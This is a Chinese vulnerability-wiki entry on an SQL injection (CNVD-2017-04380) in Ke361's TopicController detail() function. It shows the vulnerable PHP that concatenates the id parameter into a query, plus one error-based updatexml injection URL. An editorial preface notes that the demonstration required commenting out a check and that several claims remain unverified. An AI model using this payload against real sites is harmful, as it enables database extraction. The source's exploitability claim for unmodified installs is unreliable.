



## 核对与使用边界

- 明确更正：Ke361 与骑士 CMS 不同。原代码先要求 topic 存在，作者注释该检查后演示；未修改原版必须满足前置主题查询可达及存在条件。
- `setInc("hits")` 会增加访问计数，不是纯读取验证；原拼写 detai、I 过滤与 TopicModel.info 前置逻辑未补全，保留原样并标待核。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Topicdetailid; actualtopicmustexist inoriginalcode;labcommentsoutemptytopicguard;setInchitsstatechange

- **事实待核（1）**：产品错放骑士CMS，应与Ke361758统一独立。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **实验改动边界（2）**：源码明确注释掉topic不存在检查才演示，必须标改动环境，原版需有效主题/前置查询可达。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **操作与副作用边界（3）**：setInc('hits')会写访问计数，不是纯SELECT读取，验证副作用需说明。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **证据待核（4）**：描述detai拼错；I过滤/TopicModel.info前置行为未给，payload括号上下文需核。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（5）**：无真实版本/补丁/CNVD原公告，有仓库来源。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Ke361 TopicController.class.php SQL注入漏洞 CNVD-2017-04380

## 漏洞描述

Ke361 TopicController.class.php 文件中 detai() 函数中存在 SQL注入漏洞

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 Application/Home/Controller/TopicController.class.php, 漏洞函数详情



```
public function detail(){
         $id = I('id');
         $where['tid'] = $id;
         $TopicModel = new TopicModel();
         $topicInfo = $TopicModel->info($id);
        //  if(empty($topicInfo)){
        //      $this->error('您查看的专题不存在哦！');
        //  }
  			//  这里注释掉，默认不存在专题
         M('Topic')->where('id='.$id)->setInc('hits');
         $this->setSiteTitle($topicInfo['title']);
         $goods = $this->lists(D('Goods'),$where);
         foreach ($goods as $k=>$v){
             $goods[$k]['url'] = U('/goods/'.$v['id']);
         }
         $this->assign('goods',$goods);
         $this->assign('topic',$topicInfo);
         $this->display();
     }
```

这里接收参数 id，然后执行SQL语句, 通过报错注入可以获取数据库数据

```
/index.php?s=/Topic/detail/id/1)%20%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```





---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
